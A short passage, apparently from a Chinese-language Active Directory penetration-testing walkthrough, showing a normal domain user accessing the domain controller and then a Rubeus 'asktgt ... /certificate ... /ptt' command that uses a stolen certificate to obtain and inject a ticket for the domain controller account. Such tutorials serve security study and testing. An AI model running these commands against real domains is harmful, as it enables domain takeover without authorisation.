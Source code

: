 [![](assets/1699407498-274d9123ae3361ac3ae4bcd3495db26f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144503-03a8b6fc-7c70-1.png)  
Step 6：在域内主机Win08-Server上使用普通域用户登录并访问域控  
[![](assets/1699407498-01c1527b8422d965bc338a6a98fdfe69.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144513-09649340-7c70-1.png)  
Step 7：利用上面获取到的证书，获取TGT并注入

```plain
#格式：
Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt

#示例：
Rubeus.exe asktgt /user:DC$ /certificate:打印出来的base64证书数据 /ptt
```
